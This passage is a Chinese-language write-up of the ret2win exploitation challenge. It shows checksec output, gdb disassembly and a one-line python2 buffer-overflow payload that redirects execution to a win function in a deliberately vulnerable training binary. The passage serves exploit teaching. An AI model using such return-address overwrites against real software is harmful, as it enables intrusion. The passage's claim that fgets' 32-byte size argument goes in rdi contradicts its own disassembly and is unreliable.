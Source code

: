 通过查看程序的逻辑，虽然我们知道 .text 段中存在函数 `ret2win()`，但在程序执行中并没有调用到它，我们要做的就是用该函数的地址覆盖返回地址，使程序跳转到该函数中，从而打印出 flag，我们称这一类型的 ROP 为 ret2text。

还有一件重要的事情是 checksec：
```
gdb-peda$ checksec 
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
这里开启了关闭了 PIE，所以 .text 的加载地址是不变的，可以直接使用 `ret2win()` 的地址 `0x08048659`。

payload 如下（注这篇文章中的paylaod我会使用多种方法来写，以展示各种工具的使用）：
```
$ python2 -c "print 'A'*44 + '\x59\x86\x04\x08'" | ./ret2win32 
...
> Thank you! Here's your flag:ROPE{a_placeholder_32byte_flag!}
```

#### ret2win
现在是 64 位程序：
```
gdb-peda$ disassemble pwnme
Dump of assembler code for function pwnme:
   0x00000000004007b5 <+0>:     push   rbp
   0x00000000004007b6 <+1>:     mov    rbp,rsp
   0x00000000004007b9 <+4>:     sub    rsp,0x20
   0x00000000004007bd <+8>:     lea    rax,[rbp-0x20]
   0x00000000004007c1 <+12>:    mov    edx,0x20
   0x00000000004007c6 <+17>:    mov    esi,0x0
   0x00000000004007cb <+22>:    mov    rdi,rax
   0x00000000004007ce <+25>:    call   0x400600 <memset@plt>
   0x00000000004007d3 <+30>:    mov    edi,0x4008f8
   0x00000000004007d8 <+35>:    call   0x4005d0 <puts@plt>
   0x00000000004007dd <+40>:    mov    edi,0x400978
   0x00000000004007e2 <+45>:    call   0x4005d0 <puts@plt>
   0x00000000004007e7 <+50>:    mov    edi,0x4009dd
   0x00000000004007ec <+55>:    mov    eax,0x0
   0x00000000004007f1 <+60>:    call   0x4005f0 <printf@plt>
   0x00000000004007f6 <+65>:    mov    rdx,QWORD PTR [rip+0x200873]        # 0x601070 <stdin@@GLIBC_2.2.5>
   0x00000000004007fd <+72>:    lea    rax,[rbp-0x20]
   0x0000000000400801 <+76>:    mov    esi,0x32
   0x0000000000400806 <+81>:    mov    rdi,rax
   0x0000000000400809 <+84>:    call   0x400620 <fgets@plt>
   0x000000000040080e <+89>:    nop
   0x000000000040080f <+90>:    leave  
   0x0000000000400810 <+91>:    ret    
End of assembler dump.
gdb-peda$ disassemble ret2win 
Dump of assembler code for function ret2win:
   0x0000000000400811 <+0>:     push   rbp
   0x0000000000400812 <+1>:     mov    rbp,rsp
   0x0000000000400815 <+4>:     mov    edi,0x4009e0
   0x000000000040081a <+9>:     mov    eax,0x0
   0x000000000040081f <+14>:    call   0x4005f0 <printf@plt>
   0x0000000000400824 <+19>:    mov    edi,0x4009fd
   0x0000000000400829 <+24>:    call   0x4005e0 <system@plt>
   0x000000000040082e <+29>:    nop
   0x000000000040082f <+30>:    pop    rbp
   0x0000000000400830 <+31>:    ret    
End of assembler dump.
```
首先与 32 位不同的是参数传递，64 位程序的前六个参数通过 RDI、RSI、RDX、RCX、R8 和 R9 传递。所以缓冲区大小参数通过 rdi 传递给 `fgets()`，大小为 32 字节。
